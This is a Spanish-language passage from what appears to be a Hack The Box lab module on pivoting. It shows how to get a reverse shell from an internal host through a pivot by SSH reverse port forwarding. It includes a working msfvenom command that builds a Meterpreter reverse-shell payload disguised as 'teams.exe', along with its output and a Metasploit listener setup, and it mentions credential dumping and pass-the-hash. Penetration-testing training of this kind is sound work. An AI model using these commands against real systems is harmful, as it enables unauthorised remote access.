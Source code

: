 Hay muchas formas de atacar esta red y lograr los mismos resultados, por lo que no las cubriremos todas aquí, pero una que vale la pena mencionar es [Remote/Reverse Port Forwarding with SSH](https://academy.hackthebox.com/module/158/section/1427). Digamos que queremos devolver una reverse shell desde el box `DEV01` a nuestro host de ataque. No podemos hacer esto directamente ya que no estamos en la misma red, pero podemos aprovechar `dmz01` para realizar reverse port forwarding y lograr nuestro objetivo. Podríamos querer obtener una Meterpreter shell en el objetivo o una reverse shell directamente por cualquier número de razones. También podríamos haber realizado todas estas acciones sin obtener nunca una shell, ya que podríamos haber usado `PrintSpoofer` para agregar un administrador local o volcar credenciales desde `DEV01` y luego conectarnos al host de cualquier número de formas desde nuestro host de ataque usando Proxychains (pass-the-hash, RDP, WinRM, etc.). Vea cuántas formas puede lograr la misma tarea de interactuar con el host `DEV01` directamente desde su host de ataque. Es esencial ser versátil, y esta red de laboratorio es un gran lugar para practicar tantas técnicas como sea posible y perfeccionar nuestras habilidades.

Repasemos rápidamente el método de reverse port forwarding. Primero, necesitamos generar un payload usando `msfvenom`. Tenga en cuenta que aquí especificaremos la dirección IP del host pivote `dmz01` en el campo `lhost` y NO nuestra IP de host de ataque ya que el objetivo no podría conectarse a nosotros directamente.

```r
msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.8.120 -f exe -o teams.exe LPORT=443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 787 bytes
Final size of exe file: 7168 bytes
Saved as: teams.exe
```

A continuación, necesitamos configurar un `multi/handler` y comenzar un listener en un puerto diferente al que el payload que generamos usará.

```r
[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> use multi/handler
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 7000
lport => 7000
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started HTTPS reverse handler on https://0.0.0.0:7000
```

Luego, necesitamos subir el payload de reverse shell `teams.exe` al host objetivo `DEV01`. Podemos SCPearlo hasta `dmz01`, iniciar un servidor web Python en ese host y luego descargar el archivo. Alternativamente, podemos usar el administrador de archivos de DNN para subir el archivo como hicimos anteriormente. Con el payload en el objetivo, necesitamos configurar `SSH remote port forwarding` para reenviar el puerto `443` del box pivote dmz01 al puerto `7000` del listener de Metasploit. El flag `R` le dice al host pivote que escuche en el puerto `

443` y reenvíe todo el tráfico entrante a este puerto a nuestro listener de Metasploit en `0.0.0.0:7000` configurado en nuestro host de ataque.
